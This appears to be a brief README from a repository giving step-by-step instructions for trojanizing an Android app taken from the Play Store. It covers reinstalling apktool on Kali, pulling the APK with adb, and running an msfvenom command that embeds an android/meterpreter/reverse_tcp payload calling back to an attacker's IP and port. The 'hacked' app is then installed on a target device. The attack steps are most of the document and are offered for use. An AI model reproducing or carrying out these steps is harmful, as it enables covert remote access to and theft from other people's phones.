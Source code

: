 
If using apktool from the Kali-Repo, check version with command:

- apktool -version (if version is 2.x.x-dirty, you will need to remove it with the following commands, per this article: [https://github.com/iBotPeaches/Apktool/issues/2149](https://github.com/iBotPeaches/Apktool/issues/2149))
- sudo apt remove apktool
- sudo apt autoremove
- Then reinstall apktool from ibotpeaches source, as shown here for Linux Machines: [https://ibotpeaches.github.io/Apktool/install/](https://ibotpeaches.github.io/Apktool/install/)

To inject an app from the play store:

1. Download app to your android device
2. Pull using adb
3. pm list packages | grep <app_name>
4. pm path <app_package_name>
5. exit adb shell, the adb pull <path_to_apk/base.apk> -o <my_app.apk>
6. After you have the apk, use the following msfvenom command to inject it automatically:
7. msfvenom -x <my_app.apk> -p android/meterpreter/reverse_tcp LHOST=<kali_ip> LPORT=<my_port> -o <my_app_hacked.apk>
8. Uninstall the app from the target device, and install the hacked version using adb install <my_app_hacked.apk>

If you are interested in exploiting an app manually I highly suggest following this article from Black Hills Infosec: [https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)